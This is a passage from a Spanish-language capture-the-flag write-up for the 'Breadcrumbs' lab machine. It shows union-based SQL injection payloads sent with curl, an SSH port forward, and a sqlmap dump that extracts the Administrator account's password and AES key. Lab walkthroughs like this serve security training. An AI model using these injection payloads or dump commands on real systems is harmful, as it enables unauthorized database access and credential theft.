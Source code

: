 Luego vamos por la columnas:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(column_name)+from+information_schema.columns+where+table_name='passwords'%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(27) "id,account,password,aes_key"  }}
```



y por ultimo sacamos el id,account y password:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(id,account,password)+from+bread.passwords%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(58) "1AdministratorH2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="  }}#Separandolo un poco tenemos : 1 Administrator H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=
```

## SQLi guiado/auto

Para esto hacemos un fordward del puerto por ssh

```bash
ssh -f -N -L 1234:127.0.0.1:1234 development@breadcrumbs.htb
```

Verificamos con `netstat -antp`

![local_ssh](/assets/img/Linux/Breadcrumbs/local_ssh.png)

Ahora usamos `sqlmap` 

```bash
sqlmap -u "http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords" --dump
```



![sqli_guiado](/assets/img/Linux/Breadcrumbs/sqli_guiado.png)

```bash
Database: breadTable: passwords[1 entry]+----+---------------+------------------+----------------------------------------------+| id | account       | aes_key          | password                                     |+----+---------------+------------------+----------------------------------------------+| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |+----+---------------+------------------+----------------------------------------------+
```



# Administrator

Completando las piezas tenemos:

```text
ID = 1Account = AdministratorAES KEY = k19D193j.<19391(Password = H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=
```
